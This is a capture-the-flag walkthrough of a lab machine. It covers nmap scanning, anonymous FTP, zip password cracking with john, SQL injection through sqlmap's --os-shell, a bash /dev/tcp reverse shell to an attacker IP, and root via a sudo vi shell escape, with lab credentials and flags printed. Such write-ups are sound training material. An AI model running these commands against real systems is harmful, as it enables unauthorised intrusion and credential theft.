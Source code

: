 First scan the target using nmap:
`sudo nmap -sC -sS 10.129.13.94 -oA vaccine`

```txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-14 11:42 EDT
Nmap scan report for 10.129.13.94
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.246
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login

Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
```

From nmap result, we get the following answers:
1 Ans: ftp
2 Ans: Anonymous 

To login with "Anonymous" user, we used this command:
`ftp 10.129.13.94`

After login, we used "dir" command to list the files. From there we find the file name:
3 Ans: backup.zip

We downloaded the file by this command:
`get backup.zip`

As the zip is password protected, we tried to brute-force the password using john the ripper. Command:
`zip2john backup.zip > hash.txt`
`john -w=/usr/share/wordlists/rockyou.txt hash.txt`

Ans 4: zip2john

After running the command, we got the password:
```txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)     
1g 0:00:00:00 DONE (2022-07-14 11:54) 50.00g/s 409600p/s 409600c/s 409600C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

After extracting, we looked inside the code to find the admin password. We found the password in MD5 format. After decrypting the hash online, we found the plaintext password:
`qwerty789`
Ans 5: qwerty789

For further analysis, we logged in onto http://10.129.13.94/ using our admin credentials.

Now, to perform sql injection, we used the cookie with admin logged in session and tried sqlmap using the following command:
`sqlmap -u 'http://10.129.13.94/dashboard.php?search=Sandy' -cookie 'PHPSESSID=tg43l3q0nr42tlk22p0u760160'`

After running the command, we found out the site is SQL injectable. So we used the --os-shell function to generate a shell using the following command:
`sqlmap -u 'http://10.129.13.94/dashboard.php?search=Sandy' -cookie 'PHPSESSID=6ns31uhch3qnqgtte36230acis' --os-shell`

Ans 6: --os-shell

As we got the os-shell, now we need to execute a reverse-tcp shell so that we can run commands easily, for that, first enable the listener by this command in our current machine:
`sudo nc -lvp 4445`

Now, in the os-shell, we will run the command to execute reverse-tcp shell:
`bash -c "bash -i >& /dev/tcp/10.10.14.246/4445 0>&1"`

Now we can see that we are connected with reverse-tcp shell to our machine.

From our shell, let's try to find the possible user flag file (user.txt) by using the following command:
`find . -type f -name user.txt 2>/dev/null`

We can see the file exists in "/var/lib/postgresql/user.txt"
Let's read the flag:
`cat /var/lib/postgresql/user.txt`

We got our user flag!
Ans 8: ec9b13ca4d6229cd5cc1e09980965bf7

Let's try to find out the ssh password. As we know the web-server is hosted from /var/www/html directory, let's go there and read the php files.

`cd /var/www/html`
`cat dashboard.php`

From "dashboard.php" file, we got our posgres password:
`$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");`

Let's try to connect via ssh (User "P@s5w0rd!" as password):
`ssh postgres@10.129.13.94`

Now we are inside the machine as "postgres" user. Let's try to list the allowed commands for the invoking user on the current host by typing the following command:
`sudo -l`

Which returns the following:
```txt
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

From this, we got to know that our `/bin/vi /etc/postgresql/11/main/pg_hba.conf` file can be run as sudo.

Ans 7: vi

Now, we run the following command to open the vi as sudo:
`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`

Now as we have opened the vi with root permission, lets list the files we have in the /root directory by typing the following command in vi:
`:!ls /root`

We can see the root.txt file inside the /root directory. Now all we have to do is just run cat command via vi and read the flag:
`:!cat /root/root.txt`

dd6e058e814260bc70e9bbdef2715849